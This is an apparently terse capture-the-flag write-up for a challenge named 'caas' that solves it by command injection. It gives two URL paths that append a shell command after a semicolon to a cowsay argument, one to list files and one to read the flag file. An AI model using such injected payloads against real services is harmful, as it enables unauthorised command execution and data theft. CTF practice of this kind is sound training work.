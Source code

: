 # caas

Do **Command Injection**

`/cowsay/flag;ls .` lists the contents -- there's a text file "falg.txt"

`/cowsay/flag;cat falg.txt`
